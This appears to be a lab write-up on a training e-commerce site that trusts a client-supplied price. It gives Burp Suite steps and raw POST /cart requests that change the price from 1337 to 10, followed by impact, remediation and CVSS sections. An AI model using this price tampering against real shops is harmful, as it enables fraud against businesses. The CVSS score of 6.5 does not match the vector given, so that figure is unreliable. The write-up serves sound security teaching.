






# **Description**

The application implements an e-commerce functionality that allows users to purchase items from a store. Users have a store credit balance that determines what they can afford. When a user adds an item to their shopping cart, the application sends a request containing the item's price to the server.

However, the application places excessive trust in client-side controls by accepting the price value directly from the client without proper server-side validation. The price parameter is sent as part of the request and is not verified against a trusted server-side source, such as a product database.

This allows an attacker to manipulate the price of any item by intercepting the request and changing the price parameter to any value they choose. By setting the price to an amount lower than their available store credit, the attacker can purchase expensive items at a fraction of their actual cost.

# **Steps to Exploit**

1. Log in to your account (`wiener:peter`) using Burp Suite's browser.
2. Navigate to the store and attempt to add the "Lightweight l33t leather jacket" to your cart.
3. Observe that the order is rejected because you don't have enough store credit (the jacket is priced at $1337, and you have less than that).
4. In Burp Suite, go to **Proxy > HTTP history** and locate the `POST /cart` request made when adding the item to your cart.
5. Examine the request and notice the `price` parameter.
6. Send this request to Burp Repeater for manipulation.
7. In Burp Repeater, change the `price` parameter to a low value (e.g., `10`) and send the request.
8. Refresh the cart in the browser and confirm that the price has changed to your arbitrary value.
9. Repeat the process if necessary to set the price to any amount less than your available store credit (e.g., $100).
10. Complete the order and purchase the jacket.
11. The lab is solved when you successfully buy the "Lightweight l33t leather jacket" with the manipulated price.

# **Proof of Concept**

**Step 1 – Add item to cart (original request):**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=1&quantity=1&price=1337
```

**Step 2 – Modified request with manipulated price:**
```
POST /cart HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
Content-Type: application/x-www-form-urlencoded

productId=1&quantity=1&price=10
```

**Step 3 – Checkout and complete order:**
```
POST /cart/checkout HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ3aWVuZXIifQ.abc123
```

















# **Impact**

Excessive trust in client-side price controls has severe security and business implications:

**Financial Fraud:**
- Attackers can purchase expensive items at a fraction of their actual cost.
- This results in significant financial losses for the business.

**Inventory Manipulation:**
- Attackers can buy out stock of valuable items at manipulated prices.
- This can lead to artificial scarcity and customer dissatisfaction.

**Business Logic Exploitation:**
- The underlying business logic is completely undermined.
- The intended pricing and discount mechanisms can be bypassed.

**Revenue Loss:**
- Each fraudulent transaction represents a direct loss of revenue.
- Over time, this can severely impact the business's profitability.

**Reputational Damage:**
- Customers who discover this vulnerability may lose trust in the platform.
- The business may be perceived as insecure or incompetent.

**Regulatory Consequences:**
- If the vulnerability leads to significant financial fraud, regulatory fines may apply.
- The business may face legal action from affected parties.

# **Mitigation / Remediation**

1. **Never Trust Client-Side Data:**
   - All price calculations and validations must be performed server-side.
   - Client-supplied price values should never be used for financial transactions.

2. **Implement Server-Side Price Validation:**
   - When adding items to the cart, validate the price against the product database.
   - Do not accept price values from the client.

3. **Use Server-Side Product Lookups:**
   - When adding items to the cart, retrieve the price from a trusted source.
   - Use product IDs to lookup prices in the database.

4. **Implement Secure Cart Management:**
   - Store cart items with prices sourced from the server.
   - Validate all items and their prices during checkout.

5. **Regular Security Audits:**
   - Conduct regular penetration testing to identify business logic flaws.
   - Review all e-commerce functionality for client-side trust issues.

# **CVSS Justification**

| Metric | Value | Justification |
|---|---|---|
| Attack Vector | Network | Exploited remotely via standard HTTP requests |
| Attack Complexity | Low | Modifying a parameter requires minimal technical skill |
| Privileges Required | Low | Only requires valid credentials for a standard user |
| User Interaction | None | The exploit works without user interaction |
| Scope | Changed | Attacker can manipulate business logic |
| Confidentiality Impact | Low | No sensitive data is exposed |
| Integrity Impact | High | Financial transactions are manipulated |
| Availability Impact | Low | No impact on system availability |

**CVSS Score: 6.5 (Medium)**

`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:L`

This medium score reflects the serious financial impact of the vulnerability, which allows attackers to manipulate pricing and purchase items at arbitrary prices, leading to significant financial losses for the business.